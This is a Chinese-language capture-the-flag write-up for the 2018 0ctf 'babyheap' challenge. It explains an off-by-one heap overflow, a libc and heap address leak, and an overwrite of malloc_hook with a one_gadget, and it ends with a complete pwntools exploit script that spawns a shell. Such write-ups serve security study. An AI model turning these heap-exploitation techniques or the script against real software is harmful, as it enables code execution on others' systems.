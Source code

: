 # 2018 0ctf pwn--babyheap

题目四个功能alloc  update  delete  view

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/1.png)

我们利用ida找一下漏洞

alloc函数里

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/2.png)

update函数里（漏洞之处）

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/3.png)

可写的长度多了一位，刚好可以修改下一个chunk头的size。 术语叫  off-by-one

delete函数

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/4.png)

## 利用漏洞思路

​	利用off-by-one的漏洞，泄露出libc_base 和 main_arena地址，求出malloc_hook地址，修改main_arena的内容，指向malloc_hook附近的地方，从而修改malloc_hook内容为shellcode地址，执行alloc函数 = getshell。

### 第一步 泄露出libc_base 和 main_arena

​	申请多个chunk，利用off-by-one的漏洞，update chunk0修改chunk1的size，使其包含两个chunk，即overlap。把chunk1 free掉，这时系统认为chunk1为small chunk，便把它扔到main_arena处，申请与chunk1原来大小的chunk，chunk1的fd，bk的内容就会到了chunk2的fd和bk，因为指针2并没有free掉，view（2）就会出现main_arena的地址。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/5.png)

chunk3的作用是防止chunk2被‘合并’。

main_arena = 0x7f68ce3a0b78 - 0x58

libc_base = 0x7f68ce3a0b78 - 0x39bb78(我机器的偏移)

heap地址也可以找到

申请chunk4 大小为chunk2，指针4就会和指针2指向同一处，再free chunk1和chunk2，view（4）就会出现chunk1的地址。减去0x50就是heap的地址。

### 第二步 修改malloc_hook的内容

为了修改malloc_hook的内容，由于题目限制最大申请内存为88，main地址处开头都是0x7f，所以我们不能直接修改malloc_hook的内容，我们只能先修改main_arena（注意main_arena 的位置都有 对应chunk的大小）的内容，使它指向malloc_hook附近的位置。

我们先申请一个0x58的chunk，把它free掉

```python
alloc(0x58)
delete(1)
```

这步可以称是 鬼斧神工之作。看上去好像没做什么，实际上很重要，它把main_arena的bk修改了。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/6.png)

0x000055c05750c140中的 55 便是帮助我们malloc时通过检查的size大小。我们把地址偏移一下，main_arena+37放到chunk2的fd中，注意指针2虽然free掉，但我们还有chunk4。(内存不一定是55，有时是56或什么，多试几次就可以了)

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/20180ctfbabyheap/7.png)

alloc两个chunk，指针2就会指向main_arena+37处，我们就可以修改top chunk

Top Chunk

当一个chunk处于一个arena的最顶部(即最高内存地址处)的时候，就称之为top chunk。该chunk并不属于任何bin，而是在系统当前的所有free chunk(无论那种bin)都无法满足用户请求的内存大小的时候，将此chunk当做一个应急消防员，分配给用户使用。如果top chunk的大小比用户请求的大小要大的话，就将该top chunk分作两部分：1）用户请求的chunk；2）剩余的部分成为新的top chunk。否则，就需要扩展heap或分配新的heap了——在main arena中通过sbrk扩展heap，而在thread arena中通过mmap分配新的heap。

其中要注意的是，为什么分配56字节呢，，，想想是不是还有0x58的chunk，为什么不会分配到它呢，，，，因为0x60时fast chunk，不可拆，，除非分配的刚刚好是0x50-0x58的chunk，就会分给它

所以，当找不到适合的free chunk时，就会找到top chunk，就会分配到 malloc_hook附近，偏移为 -0x30，shellcode由one_gadget 得到，就不多讲了。

修改完malloc_hook后，malloc一下就会getshell了

exp：

```
from pwn import *
import sys

def alloc(size):
	r.recvuntil("Command: ")
	r.sendline("1")
	r.recvuntil("Size: ")
	r.sendline(str(size))

def update(idx,size,content):
	r.recvuntil("Command: ")
	r.sendline("2")
	r.recvuntil("Index: ")
	r.sendline(str(idx))
	r.recvuntil("Size: ")
	r.sendline(str(size))
	r.recvuntil("Content: ")
	r.sendline(content)

def delete(idx):
	r.recvuntil("Command: ")
	r.sendline("3")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def view(idx):
	r.recvuntil("Command: ")
	r.sendline("4")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def exploit(r):
	alloc(0x48)
	alloc(0x48)
	alloc(0x48)
	#chunk3 meiyou hui  shibai
	alloc(0x48)
	update(0, 0x49, 'a'*0x48 + "\xa1")
	delete(1)
	alloc(0x48)
	view(2)
	r.recvuntil("Chunk[2]: ")
	main_arena = u64(r.recv(8))-0x58
	libc_adr = main_arena-0x39bb20
	print hex(libc_adr)
	alloc(0x48)   # 4 = 2
	delete(1)
	delete(2)
	view(4)
	r.recvuntil("Chunk[4]: ")
	heap = u64(r.recv(8))-0x50
	alloc(0x58)
	delete(1)
	update(4, 8, p64(main_arena + 37))
	alloc(0x48)
	alloc(0x40)
	update(2,0x2c,"\x00"*35+p64(main_arena-0x33))
	alloc(0x20)
	update(5,28,'a'*11 + p64(libc_adr+0x4526a)*2)
	alloc(22)
	r.interactive()
	return

r = process('./babyheap')
print util.proc.pidof(r)
pause()
exploit(r)


```

